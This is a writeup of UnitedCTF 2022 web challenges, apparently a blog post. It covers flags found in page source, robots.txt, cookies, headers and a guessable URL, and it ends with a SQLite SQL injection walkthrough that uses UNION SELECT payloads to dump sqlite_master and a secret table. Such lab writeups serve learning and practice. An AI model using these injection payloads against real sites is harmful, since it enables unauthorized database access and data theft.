 ```yaml
---
layout: post
title: UnitedCTF 2022 Writeup - Web
date: 2022-10-08
type: post
tags:
- Writeup
- Hacking
- UnitedCTF
- CTF
permalink: /2022/10/UnitedCTF/Web
img: 2022/10/UnitedCTF/Web/Web.png
---
```


## Information à la source

![Information à la source](/assets/images/2022/10/UnitedCTF/Web/InformationALaSource.png "Information à la source")


```
Vous avez vu que la page d'accueil semble encore en construction. La compagnie laisse peut-être trainer ses secrets?

http://coca-cola.ctf.unitedctf.ca/
```

Author: [Deimos](https://github.com/amDeimos666)


I launched a browser and opened the challenge page.

![Site](/assets/images/2022/10/UnitedCTF/Web/Site.png "Site")

The site was very simple. I looked at the source code and the flag was in a comment.

```html
<!-- TODO : FLAG-H4CK1N9-C0C4-C0lA-->
```

Flag: FLAG-H4CK1N9-C0C4-C0lA

## Un site bien caché

![Un site bien caché](/assets/images/2022/10/UnitedCTF/Web/UnSiteBienCache.png "Un site bien caché")

```
Le site semble bien protégé, il est introuvable lorsqu'on le cherche avec un moteur de recherche.

http://coca-cola.ctf.unitedctf.ca/
```

Author: [Deimos](https://github.com/amDeimos666)

The description says that search engines can't find the site. That immediately points to a `robots.txt` file. I opened `http://coca-cola.ctf.unitedctf.ca/robots.txt` and it contained the flag.

```
# FLAG-f0R-hum4n-0n1y

User-agent: *
Disallow: /
```

Flag: FLAG-f0R-hum4n-0n1y

## La recette secrète

![La recette secrète](/assets/images/2022/10/UnitedCTF/Web/LaRecetteSecrete.png "La recette secrète")

```
Bien que vos accès sont restreints vous donnant seulement accès aux recettes en cours de développement, vous avez accepté d’aider le SCRS à soutirer de l’information sur la recette originale de coke. Il vous reste maintenant à acquérir cette information…


http://coca-cola.ctf.unitedctf.ca/
```

Author: [Deimos](https://github.com/amDeimos666)

This one talks about recipes. It says we only have access to the recipes that are being developed. But we need to find the original recipe. 

![Recettes](/assets/images/2022/10/UnitedCTF/Web/Recettes.png "Recettes")

There are two recipes on the site. This is their URLs:
* http://coca-cola.ctf.unitedctf.ca/recette/2
* http://coca-cola.ctf.unitedctf.ca/recette/3

We have recipes 2 and 3. What about recipe 1? I navigate to http://coca-cola.ctf.unitedctf.ca/recette/1 .

![Recette 1](/assets/images/2022/10/UnitedCTF/Web/Recipe1.png "Recette 1")

Flag: FLAG-F0R-Y0UR-3Y35-0N1Y

## Un biscuit avec ça?

![Un biscuit avec ça?](/assets/images/2022/10/UnitedCTF/Web/UnBiscuitAvecCa.png "Un biscuit avec ça?")

```
Une personne vous a dit qu'un secret est dans les cookies, c'est presque comme les biscuits chinois.


http://coca-cola.ctf.unitedctf.ca/
```

Author: [Deimos](https://github.com/amDeimos666)

The description for this one talks about cookies. I opened the dev tools and looked at the site's cookies.

![Cookies](/assets/images/2022/10/UnitedCTF/Web/Cookies.png "Cookies")

Flag: FLAG-N0-F00D-H3R3

## Secret en tête

![Secret en tête](/assets/images/2022/10/UnitedCTF/Web/SecretEnTete.png "Secret en tête")

```
Une personne ayant aussi de la difficulté avec l’administration a accepter de vous aider en vous donnant accès à un super secret. À l'acceuil, elle vous a répondu qu'elle avait de l'information en tête à donner.


http://coca-cola.ctf.unitedctf.ca/
```

Author: [Deimos](https://github.com/amDeimos666)

The description talks about headers, so I opened Burp and checked the header in the site response.

```http
HTTP/1.1 304 Not Modified
x-powered-by: Express
super-secret: FLAG-N0-M0R3-53CR3T
set-cookie: Secret here=FLAG-N0-F00D-H3R3; Path=/
etag: W/"5f8-pico+SlyZ/xyQxzJvO6Z5SUqOXs"
date: Mon, 03 Oct 2022 22:59:05 GMT
keep-alive: timeout=5
connection: close
```

Flag: FLAG-N0-M0R3-53CR3T

## Wisdom 1

![Wisdom 1](/assets/images/2022/10/UnitedCTF/Web/Wisdom1.png "Wisdom 1")

```
Did you check my website? It offers a way to search for inspirational quotes, I hope there's nothing wrong with it, but on the off chance that you might find anything, please be kind and let me know what you found :)

⚠️Note: If you find a flag that doesn't work for Wisdom 1, then it's probably the flag for Wisdom 2, and vice versa.


http://wisdom.ctf.unitedctf.ca/
```

Author: [hfz](https://github.com/hfz1337)

![Site](/assets/images/2022/10/UnitedCTF/Web/SiteWidom1.png "Site")

The site allows searching for quotes. 

I tried basic SQL Injections in the search field. Sending `' or 1 = 1 -- -` returned all the quotes.

Next, I tried to use order by to find out how many columns the query returned `' or 1 = 1 Order By 1 -- -`. It returned 3 columns.

I kept experimenting and found out it was using SQLite.

I extracted the list of tables in the database. 

```sql
aaa' Union Select name, sql from sqlite_master -- -
```

```sql
“CREATE TABLE my_s3cr3t_7abl3 (flag text)” - my_s3cr3t_7abl3

“CREATE TABLE quotes (author text, quote text)” - quotes
```

And then read the flag.

```
aaa' Union Select 1, flag from my_s3cr3t_7abl3 -- -
```

```
“FLAG-th4nk$_f0r_1nj3ct1ng_th3_v4x” - 1
```

Flag: FLAG-th4nk$_f0r_1nj3ct1ng_th3_v4x
